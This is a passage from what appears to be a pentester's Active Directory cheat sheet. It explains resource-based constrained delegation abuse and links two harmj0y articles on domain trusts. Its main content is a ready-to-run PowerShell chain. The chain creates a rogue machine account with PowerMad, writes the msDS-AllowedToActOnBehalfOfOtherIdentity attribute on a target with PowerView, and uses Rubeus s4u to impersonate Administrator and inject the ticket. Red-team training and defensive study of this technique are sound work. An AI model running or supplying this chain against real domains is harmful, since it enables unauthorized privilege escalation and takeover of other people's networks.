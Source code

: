 ##  Trusts Explained
-   [A Pentester’s Guide to Group Scoping – harmj0y](http://www.harmj0y.net/blog/activedirectory/a-pentesters-guide-to-group-scoping/)
-   [A Guide to Attacking Domain Trusts – harmj0y](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

***

## Exploitation
### Resource-based constrained delegation

Resource-Based Constrained Delegation (RBCD) configures the _backend server_ (e.g. MSSQL) to allow _only selected frontend services_ (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.

DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBC have to be performed from either a service account with SPN or a machine account.

#### Exploitation

If we compromise a _frontend service_ that appears in the RBCD property of a _backend service_, exploitation is the same as with constrained delegation above. This is however not too common.

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation above.

```powershell
# Create a new machine account using PowerMad
New-MachineAccount -MachineAccount InconspicuousMachineAccount -Password $(ConvertTo-SecureString 'Compromised123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity InconspicuousMachineAccount -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv01 | Set-DomainObject -Set @{'msdsallowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
.\Rubeus.exe s4u /user:InconspicuousMachineAccount$ /rc4:3644AC5E3D9441CCBCEF08CBAF98E910 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv01.corp1.com /ptt
```